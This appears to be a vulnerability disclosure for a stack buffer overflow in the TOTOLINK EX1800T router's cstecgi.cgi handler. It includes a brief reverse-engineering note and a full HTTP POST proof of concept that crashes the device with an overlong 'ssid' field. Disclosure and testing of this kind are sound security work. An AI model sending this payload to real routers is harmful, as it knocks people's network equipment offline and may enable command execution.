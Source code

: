 # Totolink EX1800T  has stack overflow vulnerability.

## supplier 
https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/223/ids/36.html
## Vulnerability fille/function

cstecgi.cgi And sub_40662C() function

## describe

EX1800T V9.1.0cu.2112_B20220316 Router sub_40662C function has a buffer overflow vulnerability, which can cause a denial-of-service exploit, cause server downtime, and even execute commands. DDOS

**Code analysis**    

The analysis is as follows in IDA. /cgi-bin/cstecgi.cgi sub_40662C.
Obtain a field, and then copy the value to other variables without restrictions, causing a denial-of-service attack.

![image-20241205230643104](https://github.com/user-attachments/assets/367d3843-4b42-436d-a782-56c856c896c4)

## POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 143
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset:utf-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/page/index.html?timestamp=1719986305735
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"token":"1",
"ssid":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
"topicurl":"setRptWiFiBasicCfg"}
```

![image-20241205230804752](https://github.com/user-attachments/assets/ad141caa-a568-45e9-96d8-b8a3154c42f6)

**Result**

We were able to see that the router had a 500 down error. This led to a denial-of-service attack.

![image-20241205230813767](https://github.com/user-attachments/assets/24ff1f53-8467-47ec-8fd4-12c4e2e64ec3)


